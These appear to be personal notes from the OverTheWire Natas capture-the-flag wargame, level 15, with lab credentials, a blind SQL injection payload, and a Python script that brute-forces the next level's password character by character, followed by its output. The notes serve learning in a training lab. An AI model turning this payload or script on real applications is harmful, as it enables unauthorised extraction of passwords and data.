 ## 15->16
- http://natas15.natas.labs.overthewire.org/
- `natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
- https://learnhacking.io/overthewire-natas-level-15-walkthrough/
- Enter "Blind SQL Injection" (https://owasp.org/www-community/attacks/Blind_SQL_Injection)
- Need more time, will pick up tomorrow
- `natas16" AND password LIKE "hP%"--` You can input things like this to Check existence.
- Python script to brute force it
```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth = ('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits
password = ""
found = False

while not found:
    found = True
    for char in chars:
        payload = f'natas16" AND password LIKE BINARY "{password}{char}%'
        data = {"username": payload}
        response = requests.post(url, auth=auth, data=data)
        
        if "This user exists" in response.text:
            password += char
            found = False
            print(f"Password so far: {password}")
            break

print(f"Complete password: {password}")

% python natas15.py
Password so far: h
Password so far: hP
Password so far: hPk
Password so far: hPkj
Password so far: hPkjK
Password so far: hPkjKY
Password so far: hPkjKYv
Password so far: hPkjKYvi
Password so far: hPkjKYviL
Password so far: hPkjKYviLQ
Password so far: hPkjKYviLQc
Password so far: hPkjKYviLQct
Password so far: hPkjKYviLQctE
Password so far: hPkjKYviLQctEW
Password so far: hPkjKYviLQctEW3
Password so far: hPkjKYviLQctEW33
Password so far: hPkjKYviLQctEW33Q
Password so far: hPkjKYviLQctEW33Qm
Password so far: hPkjKYviLQctEW33Qmu
Password so far: hPkjKYviLQctEW33QmuX
Password so far: hPkjKYviLQctEW33QmuXL
Password so far: hPkjKYviLQctEW33QmuXL6
Password so far: hPkjKYviLQctEW33QmuXL6e
Password so far: hPkjKYviLQctEW33QmuXL6eD
Password so far: hPkjKYviLQctEW33QmuXL6eDV
Password so far: hPkjKYviLQctEW33QmuXL6eDVf
Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
```